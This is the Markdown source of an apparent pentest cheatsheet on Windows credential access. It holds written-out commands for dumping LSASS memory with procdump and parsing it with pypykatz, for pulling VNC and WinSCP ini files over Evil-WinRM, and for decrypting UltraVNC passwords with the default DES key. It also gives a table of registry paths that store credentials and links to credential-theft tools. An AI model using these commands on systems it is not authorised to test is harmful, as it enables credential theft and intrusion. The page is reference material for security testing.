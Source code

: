 ```yaml
---
layout: post
title: / pen / win / creds
category: pen
parent: cheatsheets
modified_date: 2023-06-08
permalink: /pen/win/creds
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

**Menu**
<!-- vscode-markdown-toc -->
* [tools](#tools)
* [dumps](#dumps)
	* [lsass](#lsass)
		* [lsass-dump](#lsass-dump)
		* [lsass-extract](#lsass-extract)
	* [ntds.dit](#ntds.dit)
	* [sam](#sam)
* [schtasks](#schtasks)
* [softwares](#softwares)
	* [auto](#auto)
	* [chrome](#chrome)
	* [mremoteng](#mremoteng)
	* [xvnc](#xvnc)
	* [winscp](#winscp)
	* [putty](#putty)
	* [browsers](#browsers)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='tools'></a>tools

Multi-features Hacking Tools :

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='dumps'></a>dumps

* [T1003 - OS credentials dumping](https://attack.mitre.org/techniques/T1003/001/)

### <a name='lsass'></a>lsass

#### <a name='lsass-dump'></a>lsass-dump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
- [redteamrecipe 50 methods](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/) 🔥
- [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

#### <a name='lsass-extract'></a>lsass-extract
```
pypykatz lsa minidump lsass.dmp -k /tmp/krb > output.txt
```

### <a name='ntds.dit'></a>ntds-dit
### <a name='ntds.dit'></a>ntds-dit-dump


### <a name='sam'></a>sam
- [registry & vss](https://nored0x.github.io/red-teaming/Windows-Credentials-SAM-Database-part-1/)

## regkeys
[T1552.002](https://attack.mitre.org/techniques/T1552/002/)
```sh
Software\SimonTatham\Putty\Sessions
```

## <a name='schtasks'></a>schtasks

## <a name='softwares'></a>softwares

### <a name='auto'></a>auto

<script>$(window).load(function() {var reposs = ["https://github.com/Arvanaghi/SessionGopher", "https://github.com/EncodeGroup/Gopher", "https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (repp in reposs) {$.ajax({type: "GET", url: reposs[repp], dataType: "json", success: function(result) {$("#repo_listt").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<div id="reposs">
    <table id="repo_listt" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

### <a name='chrome'></a>chrome
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

### <a name='mremoteng'></a>mremoteng

- [password decryption](https://github.com/S3cur3Th1sSh1t/mRemoteNG-Decrypt)

### <a name='xvnc'></a>xvnc

* VNC softwares properties:  

| software | registry key | ini file |
|----------|--------------|--------|
| RealVNC | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | C:\Program Files\RealVNC\ |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | C:\Program Files\TightVNC\ |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | C:\Program Files\TigerVNC\ |
| UltraVNC | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```sh
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /tmp/ultravnc.ini
```

* UtltraVNC specificities

passwd - full control password
passwd2 - read-only password
```sh
# des decryption using the ultravnc default decryption key 'e84ad660c4721ae0' 
echo -n passwd | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# test the password / vnc access
vncsnapshot 1.2.3.4 pwned_desktop_x.png
```


### <a name='winscp'></a>winscp

* Get an RDP session
* Check if there are saved passwords
* Export the configuration
* Download of the ini file:
```sh
Evil-winRM > download "C:\Windows\Temp\winscp.ini" /tmp/winscp.ini
```
[reverse-pwd](https://www.jonaslieb.com/blog/2012/12/23/reversing-the-winscp-session-password-encryption.html)

### <a name='putty'></a>putty

### <a name='browsers'></a>browsers
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## sources

* [synacktiv](https://www.synacktiv.com/publications/windows-secrets-extraction-a-summary) / 20-04-2023
